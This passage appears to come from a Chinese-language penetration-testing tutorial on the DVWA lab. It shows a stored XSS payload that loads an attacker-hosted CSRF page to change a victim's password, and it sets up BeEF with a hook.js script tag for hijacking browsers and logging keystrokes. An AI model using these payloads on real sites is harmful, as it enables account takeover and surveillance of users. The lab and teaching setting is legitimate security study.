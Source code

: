 

#### 随后构造XSS代码

```
<script src="x" onerror=javascript:window.open("http://192.168.38.1/csrf.html")></script>
```

根据需要进行修改

### 2.进行xss攻击

在 XSS (Stored) 模块下，插入 XSS 代码

在 DVWA 中会碰到 POC 太长而无法输入完全的情况，这个时候在开发者工具中将这个框的 maxlength 值设置大一点即可，这里我设置了 500.

![image-20230513193346598](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230513193346598.png)

点击 sign guestbook 按钮，POC 就会被插进去了，之后用其他浏览器登陆其他用户，访问存储型 XSS 模块页面，就会触发xss

![image-20230513193412149](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230513193412149.png)

访问页面后，浏览器会自动跳转，同时返回修改密码的界面，如果弹出页面显示如上图中的 Password Changed 字样，就说明受害者的密码修改成功了，而这也仅仅是因为受害者点击了一个页面。

## CSRF + SelfXSS

​	在这套组合打法中，用到了BeFF工具：		

​	BeFF:The Browser Exploitation Framework，是一款针对浏览器的渗透测试工具。 用Ruby语言开发的，Kali中默认安装的一个模块，用于实现对XSS漏洞的攻击和利用。

​	BeEF主要是往网页中插入一段名为hook.js的JS脚本代码，如果浏览器访问了有hook.js(钩子)的页面，就会被hook(勾住)，勾连的浏览器会执行初始代码返回一些信息，接着目标主机会每隔一段时间（默认为1秒）就会向BeEF服务器发送一个请求，询问是否有新的代码需要执行。BeEF服务器本质上就像一个Web应用，被分为前端和后端。前端会轮询后端是否有新的数据需要更新，同时前端也可以向后端发送指示， BeEF持有者可以通过浏览器来登录 BeEF 的后端，来控制前端(用户的浏览器)。BeEF一般和XSS漏洞结合使用。

### 安装：

一般是安装在linux系统里的

```
sudo apt-get install beef-xss
```

随后可运行

```
sudo beef-xss
```

![image-20230513223419188](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230513223419188.png)

随后可以看到我们的钩子js代码
![image-20230513223448143](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230513223448143.png)

ip需要自行修改为主机ip，钓鱼页面(被攻击页面)是因为插入了一下js脚本：

```
Js脚本： <script src="http://192.168.3.59:3000/hook.js"></script>
目标打开带有js脚本的文件后
然后beef中会看到被害者上线，可以进行控制，可以记录键盘输入
```

